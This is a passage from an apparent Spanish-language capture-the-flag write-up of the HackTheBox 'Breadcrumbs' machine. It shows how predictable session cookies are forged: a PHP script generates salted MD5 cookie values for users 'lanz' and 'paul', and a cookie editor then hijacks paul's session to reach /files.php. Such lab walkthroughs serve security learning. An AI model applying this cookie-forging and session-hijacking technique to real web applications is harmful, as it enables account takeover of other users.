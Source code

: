 ```html
Letra: z
Key: s4lTy_stR1nG_z(!528./9890
lanz23ccbc5fab73e561862271461cc6bedc
```

**(Y si, una de las `cookies` que se genera, es la que tenemos actualmente en nuestra sesión)**

Ahora, hagamos lo mismo pero con `paul`:

> [https://paiza.io/projects/5iqJvM3BOwOFtZb0clK0Og](https://paiza.io/projects/5iqJvM3BOwOFtZb0clK0Og).

```php
<?php
    $username = "paul";
...
```

```html
Username: paul
Max: 3

Seed: 0
Letra: p
Key: s4lTy_stR1nG_p(!528./9890
paula2a6a014d3bee04d7df8d5837d62e8c5

Seed: 1
Letra: a
Key: s4lTy_stR1nG_a(!528./9890
paul61ff9d4aaefe6bdf45681678ba89ff9d

Seed: 2
Letra: u
Key: s4lTy_stR1nG_u(!528./9890
paul8c8808867b53c49777fe5559164708c3

Seed: 3
Letra: l
Key: s4lTy_stR1nG_l(!528./9890
paul47200b180ccd6835d25d034eeb6e6390
```

Si probamos con un editor de cookie, logramos robarle la sesión a **paul** con la última generada:

```html
Seed: 3
Letra: l
Key: s4lTy_stR1nG_l(!528./9890
paul47200b180ccd6835d25d034eeb6e6390
```

![316page80_editCookie_paul_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316page80_editCookie_paul_done.png)

Ya podemos navegar tranquilamente sobre el recurso `/files.php`, pero hay un problema aún, ya que el otro `cookie` (`token`) tiene contenido de `lanz` y no de `paul` asi que no podemos subir nada aún:
